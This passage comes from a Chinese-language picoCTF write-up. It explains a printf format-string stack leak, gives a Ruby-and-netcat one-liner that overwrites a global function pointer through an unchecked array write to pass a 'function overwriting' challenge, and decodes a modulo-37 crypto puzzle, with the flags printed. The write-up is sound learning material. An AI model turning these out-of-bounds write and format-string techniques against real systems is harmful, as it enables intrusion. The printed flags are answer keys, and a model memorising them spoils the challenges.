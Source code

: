 这样就看见了flag啦. 

注: 因为`printf`函数的格式化输出的特性会将它后面的值(也就是传入的参数), 
给格式化输出, 所以就可以利用这个特性糊弄计算机, 让它以为有传入的参数, 
于是就导致了计算机去读取栈上的其他信息, 然后就导致了读到了flag. 
并且可以利用类似的方法甚至可以在栈上面写任意的数据... 但是我不是很会. 
(以后学... )

### function overwriting
查看程序里面的东西, 发现里面的函数调用是通过一个全局变量来调用的. 
然后程序里面也有一个类似于全局变量的数组, 而这个数组有一个写的方法, 
而写的时候没有什么检测和保护措施. 所以想法就是把`hard_checker`换成
`easy_checker`, 因为前者是一个比较坑的函数, 是没法通过的. 
而后者就是个好捏的软柿子了. 

所以设置偏移量, 然后写入数据, 最后就能够让执行函数的时候把它给解决了. 

```shell
> ruby -e ' puts "a"*13+"L", "-16 -314" ' | nc saturn.picoctf.net 50134
Tell me a story and then I'll tell you if you're a 1337 >> On a totally unrelated note, give me two numbers. Keep the first one less than 10.
You're 1337. Here's the flag.
picoCTF{0v3rwrit1ng_P01nt3rs_698c2a26}
```

## Cryptography
说实话, 我对密码学是一窍不通, 现在的基本只能解决古典密码, 
但是对于现代的那些密码, 因为数学不过关, 导致基本不会. 
以后决定开始了解这些东西了... 

### basic mod 1 & 2
mod1的题目解释已经把要做的事情全部做完了: 

> We found this weird message being passed 
> around on the servers, we think we have
> a working decrpytion scheme.
>
> Download the message here.
> Take each number mod 37 and map it to the
> following character set: 0-25 is the
> alphabet (uppercase), 26-35 are the decimal
> digits, and 36 is an underscore.

其实题目的做法说的非常显然了, 所以我就不解释了. 

```ruby
map = ("A".."Z").to_a + ("0".."9").to_a + ["_"]
enc = open("message.txt").read.split(" ")
enc.each do |s|
  print map[s.to_i % 37]
end

# => R0UND_N_R0UND_ADD17EC2
```
